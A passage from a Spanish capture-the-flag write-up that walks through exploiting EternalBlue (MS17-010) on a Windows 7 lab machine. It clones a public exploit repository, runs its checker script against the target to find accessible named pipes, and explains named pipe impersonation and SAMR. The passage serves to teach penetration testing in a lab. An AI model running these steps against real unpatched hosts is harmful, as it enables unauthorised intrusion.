 En este punto, vamos a utilizar tres versiones de este Exploit, usaremos una versión de github que me ayudara a explicar un poco mejor como funciona este Exploit, la versión de **Searchsploit** y la que tiene Metasploit. Primero, usemos la de **GitHub**.

<h2 id="exploit1">Probando Exploit EternalBlue de GitHub</h2>

Vamos a clonar el siguiente repositorio:
* <a href="https://github.com/worawit/MS17-010" target="_blank">Repositorio de Worawit: MS17-010</a>

Clonalo:
```bash
git clone https://github.com/worawit/MS17-010.git
Clonando en 'MS17-010'...
remote: Enumerating objects: 183, done.
remote: Counting objects: 100% (131/131), done.
remote: Compressing objects: 100% (45/45), done.
remote: Total 183 (delta 88), reused 86 (delta 86), pack-reused 52
Recibiendo objetos: 100% (183/183), 107.30 KiB | 779.00 KiB/s, listo.
Resolviendo deltas: 100% (104/104), listo.
```

Bien, en este caso, tenemos muchas opciones para usar, si recordamos los escaneos que hicimos previamente, sabemos que la máquina usa **Windows 7**, aunque aca tienen una versión para este SO, es mejor utilizar el **script zzz_exploit.py**, ya que engloba varias versiones de **Windows** y bueno...es el mismo exploit que vamos a usar después.

Para usar correctamente este Exploit, necesitamos saber las **named pipes** que estan encendidas en el **servicio SMB**, para esto, usaremos el **script checker.py** y usamos cualquiera que nos de. Lo que vamos a realizar, es un **Named Pipes Impersonation**.

| **Named Pipes Impersonation** |
|:-----------:|
| *Es una técnica que permite escalar privilegios. Un named pipe es una técnica que tiene el sistema operativo Windows para facilitar la comunicación entre procesos. Es sencillo, si un proceso quiere "contactar" con otro, el primero de los procesos puede enviar un mensaje sobre la red o utilizar un fichero. En el segundo caso, el proceso escribe el mensaje en un fichero y el otro proceso lo lee.* |

<br>

```bash
python2 checker.py 10.10.10.40
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```
Excelente, en mi caso voy a usar la de **samr**, intenta con las demás si quieres probar si con todas funciona este Exploit.

| **Protocolo SAMR** |
|:-----------:|
| *El Protocolo Remoto del Administrador de Cuentas de Seguridad (SAMR) es una parte de SMB, que proporciona administración remota de información de cuentas y políticas de seguridad para sistemas basados en Windows. SAMR es un protocolo RPC (Remote Procedure Call) construido sobre el protocolo SMB, que permite la comunicación entre sistemas cliente y servidor.* |
